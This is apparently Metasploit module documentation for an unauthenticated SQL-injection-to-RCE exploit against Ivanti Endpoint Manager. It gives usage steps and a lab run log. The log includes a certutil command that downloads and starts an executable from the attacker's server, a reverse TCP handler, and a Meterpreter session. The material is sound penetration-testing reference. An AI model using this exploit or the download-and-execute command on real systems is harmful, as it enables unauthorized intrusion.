 ## Vulnerable Application

Ivanti Endpoint Manager (EPM) 2022 SU5 and prior are vulnerable to
unauthenticated SQL injection which can be leveraged to achieve unauthenticated
remote code execution.

### Installation
Download and run the installer of a vulnerable version of Ivanti Endpoint
Manager (EPM) from https://www.ivanti.com/resources/downloads. Note that a
service account with Ivanti is required.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use windows/http/ivanti_epm_recordgoodapp_sqli_rce`
1. Do: `exploit rhost=<remote host>`
1. You should get a session.

## Options

### DELAY
The delay to detect if the target is vulnerable using time-based SQLi in second (default: 5)

## Scenarios

This has been tested against EPM version 2021.1 and 2022 (no Service Update) on Windows Server 2019
```
msf exploit(windows/http/ivanti_epm_recordgoodapp_sqli_rce) > exploit verbose=true rhosts=192.168.101.130

[*] Command to run on remote host: certutil -urlcache -f http://192.168.101.40:8080/GgcI9uEq8wim98SvWzx8DQ %TEMP%\TXnDFJhrK.exe & start /B %TEMP%\TXnDFJhrK.exe
[*] Fetch handler listening on 192.168.101.40:8080
[*] HTTP server started
[*] Adding resource /GgcI9uEq8wim98SvWzx8DQ
[*] Started reverse TCP handler on 192.168.101.40:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is vulnerable using time-based SQLi (delay=5
[*] Baseline query elapsed time: 0.5334880000445992
[*] Delayed query elapsed time: 5.020284999860451
[+] The target is vulnerable. SQLi executed
[*] Client 192.168.101.40 requested /GgcI9uEq8wim98SvWzx8DQ
[*] Sending payload to 192.168.101.40 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.101.40 requested /GgcI9uEq8wim98SvWzx8DQ
[*] Sending payload to 192.168.101.40 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.101.40
[*] Meterpreter session 1 opened (192.168.101.40:4444 -> 192.168.101.40:64423) at 2024-06-20 10:50:21 +0200

meterpreter > getuid
Server username: NT Service\MSSQL$LDMSDATA
meterpreter > sysinfo
Computer        : WIN2019
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
